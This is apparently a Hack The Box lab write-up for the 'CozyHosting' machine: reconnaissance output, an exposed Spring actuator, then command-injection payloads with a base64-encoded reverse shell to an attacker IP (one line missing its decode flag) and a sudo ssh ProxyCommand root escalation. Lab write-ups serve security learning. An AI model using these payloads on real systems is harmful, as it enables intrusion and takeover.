 # CozyHosting Write-up

<img src="https://labs.hackthebox.com/storage/avatars/eaed7cd01e84ef5c6ec7d949d1d61110.png" width="200" height="200">

-----------------------------------------------------------------------------------------------------------------------

Main page `cozyhosting.htb`

![image](https://github.com/zer00d4y/writeups/assets/128820441/a4d4d8d3-0a22-4a11-b907-14606c4f2c14)


# Nmap 

`nmap -sC -sV cozyhosting.htb` 

    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
    |_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-title: Did not follow redirect to http://cozyhosting.htb
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# Dirsearch

`python3 dirsearch.py -u http://cozyhosting.htb`

    ┌──(kali㉿kali)-[~/tools/dirsearch]
    └─$ python3 dirsearch.py -u http://cozyhosting.htb/                
    
      _|. _ _  _  _  _ _|_    v0.4.3
     (_||| _) (/_(_|| (_| )
    
    Starting: 
    200 -    0B  - /;/admin                                          
    200 -    0B  - /;/login
    200 -    0B  - /;/json
    200 -    0B  - /;admin/
    200 -    0B  - /;login/
    200 -    0B  - /;json/                                    
    200 -  634B  - /actuator                                         
    200 -    0B  - /actuator/;/auditLog
    200 -    0B  - /actuator/;/auditevents
    200 -    0B  - /actuator/;/beans
    200 -    0B  - /actuator/;/caches
    200 -    0B  - /actuator/;/conditions
    200 -    0B  - /actuator/;/dump
    200 -    0B  - /actuator/;/configurationMetadata
    200 -    0B  - /actuator/;/env
    200 -    0B  - /actuator/;/events
    200 -    0B  - /actuator/;/exportRegisteredServices
    200 -    0B  - /actuator/;/configprops
    200 -    0B  - /actuator/;/health
    200 -    0B  - /actuator/;/heapdump
    200 -    0B  - /actuator/;/features
    200 -    0B  - /actuator/;/httptrace
    200 -    0B  - /actuator/;/jolokia
    200 -    0B  - /actuator/;/flyway
    200 -    0B  - /actuator/;/logfile
    200 -    0B  - /actuator/;/loggers
    200 -    0B  - /actuator/;/healthcheck
    200 -    0B  - /actuator/;/metrics
    200 -    0B  - /actuator/;/info
    200 -    0B  - /actuator/;/registeredServices
    200 -    0B  - /actuator/;/integrationgraph
    200 -    0B  - /actuator/;/refresh
    200 -    0B  - /actuator/;/liquibase
    200 -    0B  - /actuator/;/loggingConfig
    200 -    0B  - /actuator/;/mappings
    200 -    0B  - /actuator/;/sessions
    200 -    0B  - /actuator/;/releaseAttributes
    200 -    0B  - /actuator/;/resolveAttributes
    200 -    0B  - /actuator/;/sso
    200 -    0B  - /actuator/;/springWebflow
    200 -    0B  - /actuator/;/scheduledtasks
    200 -    0B  - /actuator/;/statistics
    200 -    0B  - /actuator/;/shutdown
    200 -    0B  - /actuator/;/status
    200 -    0B  - /actuator/;/trace
    200 -    0B  - /actuator/;/threaddump                            
    200 -    0B  - /actuator/;/prometheus                            
    200 -    0B  - /actuator/;/ssoSessions                           
    200 -    5KB - /actuator/env                                     
    200 -   15B  - /actuator/health
    200 -   10KB - /actuator/mappings                                
    200 -   98B  - /actuator/sessions
    200 -  124KB - /actuator/beans                                                                            
    200 -    0B  - /admin/%3bindex/                                  
    200 -    0B  - /admin;/                                          
    200 -    0B  - /Admin;/                                          
    200 -    0B  - /axis//happyaxis.jsp                              
    200 -    0B  - /axis2-web//HappyAxis.jsp                         
    200 -    0B  - /axis2//axis2-web/HappyAxis.jsp
    200 -    0B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js
    200 -    0B  - /engine/classes/swfupload//swfupload.swf          
    200 -    0B  - /engine/classes/swfupload//swfupload_f9.swf                                                
    200 -    0B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/ 
    200 -    0B  - /extjs/resources//charts.swf                      
    200 -    0B  - /html/js/misc/swfupload//swfupload.swf            
    200 -    0B  - /jkstatus;                                        
    200 -    4KB - /login                                            
    200 -    0B  - /login.wdm%2e                                     
    204 -    0B  - /logout                                           
                                                                                 
    Task Completed    

/actuator/sessions

![image](https://github.com/zer00d4y/writeups/assets/128820441/c0473b62-97c5-4e15-811b-b35915afe6d0)

login page

![image](https://github.com/zer00d4y/writeups/assets/128820441/a635bf81-f568-43ef-9dc9-1e255cd231c1)

![image](https://github.com/zer00d4y/writeups/assets/128820441/bdf6f862-c771-4181-8e95-240d76a9d9f6)

![image](https://github.com/zer00d4y/writeups/assets/128820441/99c5b146-96c8-47a1-873c-815d6e85ace9)

![image](https://github.com/zer00d4y/writeups/assets/128820441/49cdc566-a6a5-47a5-b110-1bdd848dd63b)

![image](https://github.com/zer00d4y/writeups/assets/128820441/0255c3c8-adef-4cb5-adb3-8e2fab06ca28)

![image](https://github.com/zer00d4y/writeups/assets/128820441/1c0f1101-2178-4863-84c7-4e5003277972)

![image](https://github.com/zer00d4y/writeups/assets/128820441/d31e8ad4-a152-49c0-bcc5-29da465d70cb)

![image](https://github.com/zer00d4y/writeups/assets/128820441/83fb39b1-f380-43c4-bee5-c15feb3ca8b8)

![image](https://github.com/zer00d4y/writeups/assets/128820441/d29fba97-e038-42c8-9245-ac74b2c3d120)

`echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjYyLzc3NyAwPiYx"| base64 | bash`

`;$(echo${IFS}"L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjYyLzc3NyAwPiYx"|${IFS}base64${IFS}-d${IFS}|${IFS}bash);`

![image](https://github.com/zer00d4y/writeups/assets/128820441/d4d94e81-6e3b-4e1b-a253-0edb88c55b39)

![image](https://github.com/zer00d4y/writeups/assets/128820441/e95222cd-6e59-40cf-ba6c-134af8bd49a9)

![image](https://github.com/zer00d4y/writeups/assets/128820441/ff18da37-ed48-4323-9ba6-cd7e3c24e35f)

![image](https://github.com/zer00d4y/writeups/assets/128820441/63dff361-f552-4c64-9ece-47daf9d48e92)

![image](https://github.com/zer00d4y/writeups/assets/128820441/fe19f79f-aad6-45ef-94b5-4258da0abea4)

![image](https://github.com/zer00d4y/writeups/assets/128820441/67aa73c6-4be3-4a09-84c4-c55fca1f9634)

![image](https://github.com/zer00d4y/writeups/assets/128820441/799423fb-6205-42fe-98b1-971d1d872066)

![image](https://github.com/zer00d4y/writeups/assets/128820441/b06e1cf5-55ce-4c17-90e5-a165630730a7)

![image](https://github.com/zer00d4y/writeups/assets/128820441/76c5022f-7362-438d-bceb-abee0508028e)

# PrivEsc via LinPEAS

github: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

https://github.com/carlospolop/PEASS-ng/releases/download/20240226-e0f9d47b/linpeas.sh

`wget https://github.com/carlospolop/PEASS-ng/releases/download/20240226-e0f9d47b/linpeas.sh`

![image](https://github.com/zer00d4y/writeups/assets/128820441/1657048e-b830-4341-a053-6e39bf94139a)

![image](https://github.com/zer00d4y/writeups/assets/128820441/4637b630-d74e-403a-956c-9dfb8a6524ea)

![image](https://github.com/zer00d4y/writeups/assets/128820441/6cb8f88a-b2d6-429c-8564-5b53777af1c4)

![image](https://github.com/zer00d4y/writeups/assets/128820441/dfa0772c-1294-4a83-8109-10be76e76c84)

` sudo ssh -o ProxyCommand=';bash 0<&2 1>&2' x`

![image](https://github.com/zer00d4y/writeups/assets/128820441/22064478-83c6-4666-9c7e-ae05d4c7df12)


